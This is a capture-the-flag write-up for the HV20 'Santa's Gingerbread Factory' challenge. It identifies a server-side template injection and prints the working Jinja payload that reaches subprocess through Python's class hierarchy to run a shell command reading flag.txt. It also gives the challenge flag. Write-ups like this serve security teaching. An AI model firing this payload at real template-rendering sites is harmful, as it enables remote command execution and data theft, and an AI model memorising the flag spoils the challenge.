 ```yaml
---
layout: writeup
title: 'Day 09: Santa’s Gingerbread Factory'
level:
difficulty:
points:
categories: []
tags: []
flag: HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}
---
```

## Description

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the RESOURCES section on top.

Besides the gingerbread men, there are other goodies there. Let's see if
you can get the goodie, which is stored in /flag.txt.

## Solution

We realise we can do a server side template injection (SSTI); this
challenge is very similar to [this previous
writeup](../PicoCTF_2018/writeup.md#web-exploitation-900-flaskcards-and-freedom)
from PicoCTF 2018.

We follow this method, and find the injection that gives us our flag:

    {{ ''.__class__.__mro__[2].__subclasses__()[258]('cat flag.txt',shell=True,stdout=-1).communicate() }}"

![](writeupfiles/dec9_solution.png)

